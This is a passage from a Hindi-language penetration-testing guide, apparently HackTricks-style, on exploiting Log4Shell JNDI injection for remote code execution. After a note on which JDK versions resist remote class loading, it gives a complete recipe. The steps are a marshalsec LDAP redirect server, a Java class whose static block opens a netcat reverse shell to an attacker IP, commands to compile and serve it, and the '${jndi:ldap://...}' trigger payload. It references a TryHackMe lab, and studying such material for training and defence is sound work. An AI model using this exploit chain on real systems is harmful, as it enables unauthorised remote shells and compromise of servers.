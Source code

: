 {% hint style="info" %}
JDK संस्करण 6u141, 7u131, या 8u121 से ऊपर चलने वाले होस्ट LDAP क्लास लोडिंग हमले के खिलाफ सुरक्षित हैं। इसका कारण `com.sun.jndi.ldap.object.trustURLCodebase` का डिफ़ॉल्ट निष्क्रिय होना है, जो JNDI को LDAP के माध्यम से एक दूरस्थ कोडबेस लोड करने से रोकता है। हालाँकि, यह ध्यान रखना महत्वपूर्ण है कि ये संस्करण **डिसेरियलाइजेशन हमले के खिलाफ सुरक्षित नहीं हैं**।

इन उच्च JDK संस्करणों का लाभ उठाने के लिए हमलावरों को Java एप्लिकेशन के भीतर एक **विश्वसनीय गैजेट** का उपयोग करना आवश्यक है। इस उद्देश्य के लिए अक्सर ysoserial या JNDIExploit जैसे उपकरणों का उपयोग किया जाता है। इसके विपरीत, निम्न JDK संस्करणों का शोषण करना अपेक्षाकृत आसान है क्योंकि इन संस्करणों को मनिपुलेट करके मनमाने क्लास लोड और निष्पादित किए जा सकते हैं।

**अधिक जानकारी के लिए** (_जैसे RMI और CORBA वेक्टर पर सीमाएँ_) **पिछले JNDI नामकरण संदर्भ अनुभाग की जांच करें** या [https://jfrog.com/blog/log4shell-0-day-vulnerability-all-you-need-to-know/](https://jfrog.com/blog/log4shell-0-day-vulnerability-all-you-need-to-know/)
{% endhint %}

### RCE - Marshalsec with custom payload

आप इसे **THM बॉक्स** में परीक्षण कर सकते हैं: [**https://tryhackme.com/room/solar**](https://tryhackme.com/room/solar)

उपकरण [**marshalsec**](https://github.com/mbechler/marshalsec) का उपयोग करें (जार संस्करण [**यहाँ**](https://github.com/RandomRobbieBF/marshalsec-jar) उपलब्ध है)। यह दृष्टिकोण एक LDAP संदर्भ सर्वर स्थापित करता है ताकि कनेक्शनों को एक द्वितीयक HTTP सर्वर पर पुनर्निर्देशित किया जा सके जहाँ शोषण होस्ट किया जाएगा:
```bash
java -cp marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.LDAPRefServer "http://<your_ip_http_server>:8000/#Exploit"
```
टार्गेट को रिवर्स शेल कोड लोड करने के लिए प्रेरित करने के लिए, नीचे दिए गए सामग्री के साथ `Exploit.java` नामक एक जावा फ़ाइल तैयार करें:
```java
public class Exploit {
static {
try {
java.lang.Runtime.getRuntime().exec("nc -e /bin/bash YOUR.ATTACKER.IP.ADDRESS 9999");
} catch (Exception e) {
e.printStackTrace();
}
}
}
```
Java फ़ाइल को क्लास फ़ाइल में संकलित करें: `javac Exploit.java -source 8 -target 8`। इसके बाद, क्लास फ़ाइल वाले निर्देशिका में एक **HTTP सर्वर** प्रारंभ करें: `python3 -m http.server`। सुनिश्चित करें कि **marshalsec LDAP सर्वर** इस HTTP सर्वर का संदर्भ देता है।

संवेदनशील वेब सर्वर पर एक्सप्लॉइट क्लास के निष्पादन को ट्रिगर करें एक पेलोड भेजकर जो इस तरह दिखता है:
```bash
${jndi:ldap://<LDAP_IP>:1389/Exploit}
```
**नोट:** यह एक्सप्लॉइट Java की कॉन्फ़िगरेशन पर निर्भर करता है जो LDAP के माध्यम से रिमोट कोडबेस लोडिंग की अनुमति देता है। यदि यह अनुमति नहीं है, तो मनमाने कोड निष्पादन के लिए एक विश्वसनीय क्लास का उपयोग करने पर विचार करें।
